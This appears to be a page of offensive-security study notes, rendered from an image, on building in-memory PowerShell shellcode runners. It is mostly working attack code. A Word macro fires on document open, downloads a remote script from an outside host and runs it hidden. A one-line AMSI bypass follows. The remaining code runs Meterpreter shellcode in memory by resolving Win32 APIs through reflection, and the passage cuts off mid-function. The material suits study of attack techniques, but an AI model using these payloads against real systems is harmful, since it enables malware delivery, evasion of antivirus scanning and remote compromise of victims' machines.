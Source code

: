 ```powershell
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

# we must instruct PowerShell to delay termination until our shell fully executes. We'll use the Win32 _WaitSingleObject API to pause the script and allow Meterpreter to finish.
# When _CreateThread_ is called, it returns a handle to the newly created thread. We provided this handle to _WaitForSingleObject_ along with the time to wait for that thread to finish. In this case, we have specified 0xFFFFFFFF, which will instruct the program to wait forever or until we exit our shell.
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

This code to download and execute our PowerShell runner if we were using a word macro

```vb
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.45.205/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

### **via Reflection**

**This allows us to invoke Win32 APIs from code that execute entirely in memory**

```powershell
# Compact AMSI bypass
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFai
led','NonPublic,Static').SetValue($null,$true)

# a function that can resolve any Win32 API without using the _Add-Type_ keyword. This completely avoids writing to the hard disk. This basically performs a lookup of any Win32 API
function LookupFunc {
	Param ($moduleName, $functionName)
	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
    Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

# This functions helps to match the address of the Win32 API that we have located with its arguments and return values. It accepts two arguments: the function arguments of the Win32 API given as an array and its return type
function getDelegateType {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)
# The first block creates the custom assembly and defines the module and type inside of it.
	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
```